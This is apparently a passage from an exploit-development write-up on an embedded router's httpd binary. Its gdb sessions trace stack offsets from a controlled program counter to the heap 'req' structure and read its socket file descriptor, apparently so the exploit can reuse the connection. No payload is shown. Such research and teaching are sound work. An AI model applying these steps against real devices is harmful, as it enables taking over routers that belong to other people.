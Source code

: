 ```text
                    sw                 ra,0x20c(sp)
                    sw                 s8,0x208(sp)
                    sw                 s7,0x204(sp)
                    sw                 s6,0x200(sp)
```

Since is all deterministic, we can add the offsets and find out where the
``req`` address is stored, i.e. ``-0x480 + 0x204`` bytes from where the stack
pointer is when we control the ``pc`` register; Let me double check
with ``gdb`` in a running instance:

```text
(gdb) print/x 0x228 + 0x28 + 0x20 + 0x210
$4 = 0x480
(gdb) x/10xw (int*)($sp - 0x480 + 0x204)
0x7d3fead4:     0x0064c804      0x7d3fedf8      0x0050cf0c      0x00544d3d
0x7d3feae4:     0x00000000      0x7d3fed44      0x0000000e      0x00594d80
0x7d3feaf4:     0x0051fc64      0x7d3fee1c
```

``0x0064c804`` indeed is a value of memory located in the **heap**
(to confirm this take a look at the mapped address space at the beginning);
now we can add the offset to reach the ``socket`` variabile inside ``req``
i.e. ``0x34`` (this is not obvious of course, you should have reversed the internal
members of this structure)

```text
(gdb) x/xw (*(int*)($sp - 0x480 + 0x204) + 0x34)
0x64c838:       0x0000000e
```

To double check that this file descriptor makes sense we can dig more information
inside the ``/proc`` pseudo filesystem

```text
(gdb) info proc
process 25517
cmdline = 'httpd'
cwd = '/tl-rootfs/tmp'
exe = '/tl-rootfs/usr/bin/httpd'
(gdb) shell ls -al /proc/25517/fd
fd/     fdinfo/
(gdb) shell ls -al /proc/25517/fd/
total 0
dr-x------ 2 root root  0 Jan 21 09:05 .
dr-xr-xr-x 6 root root  0 Jan 21 06:03 ..
lrwx------ 1 root root 64 Jan 21 09:21 0 -> /dev/ttyS0
lrwx------ 1 root root 64 Jan 21 09:21 1 -> /dev/ttyS0
lrwx------ 1 root root 64 Jan 21 09:21 10 -> socket:[3149]
lr-x------ 1 root root 64 Jan 21 09:21 11 -> /tl-rootfs/tmp/pipe_mud80
l-wx------ 1 root root 64 Jan 21 09:21 12 -> /tl-rootfs/tmp/pipe_mud80
lrwx------ 1 root root 64 Jan 21 09:21 13 -> socket:[3150]
lrwx------ 1 root root 64 Jan 21 09:21 14 -> socket:[18959]
   ...
```
